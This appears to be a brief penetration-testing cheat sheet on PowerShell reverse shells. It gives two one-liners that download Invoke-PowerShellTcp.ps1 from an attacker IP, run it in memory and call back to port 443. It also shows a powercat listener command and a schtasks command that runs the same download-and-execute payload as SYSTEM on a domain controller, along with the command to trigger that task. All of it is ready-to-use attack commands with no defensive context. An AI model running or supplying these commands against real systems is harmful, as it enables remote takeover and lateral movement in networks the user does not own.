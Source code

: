 ## Invoke-PowerShellTcp & PowerCat

<aside>
💡 Downloading a file from the attacker machine and running it memory.
Initialising a reverse shell with `Invoke-PowerShellTcp.ps1`
Listening with `PowerCat.ps1`

</aside>

Download file and run in memory, method 1 👇

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.x/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443`

Download file and run in memory, method 2 👇

`powershell.exe iex (iwr http://172.16.100.x/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443`

Listening with `powercat.ps1`👇

`powercat -l -v -p 443 -t 100`

---

## Schedule Tasks

Schedule and execute a task.👇

`schtasks /create /S dc.domain.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString('http://192.168.100.1:8080/Invoke-PowerShellTcp.ps1')'"`

Execute Task 👇 

`schtasks /Run /S dc.domain.local /TN "STCheck”`

---
